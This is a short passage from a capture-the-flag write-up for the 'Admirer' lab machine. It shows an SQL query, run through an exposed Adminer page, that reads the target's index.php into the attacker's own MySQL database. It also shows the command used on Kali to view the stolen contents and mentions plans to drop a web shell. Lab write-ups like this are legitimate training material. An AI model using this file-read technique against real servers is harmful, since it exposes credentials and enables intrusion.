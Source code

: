 This brings up the following:

![web6](./admirer/web6.png)

Then select `SQL command` and try the following query to fetch the `index.php` assuming it is at `/var/www/html` by default. This is because the `index.php` had DB credentials in it from the HTML backup downloaded over FTP and maybe the one running on the target will too. If it is possible to connect to the target MySQL DB over the `adminer.php` page, then it may be possible to drop a web shell:

```sql
LOAD DATA LOCAL INFILE '/var/www/html/index.php' INTO TABLE data FIELDS TERMINATED BY "\n";
```

The query runs without errors! Now check the output on Kali:

```bash
mysql -u bubba -pgump -e "select * from BUBBA_GUMP.data;"
```

This returns the following:

![sql1](./admirer/sql1.png)
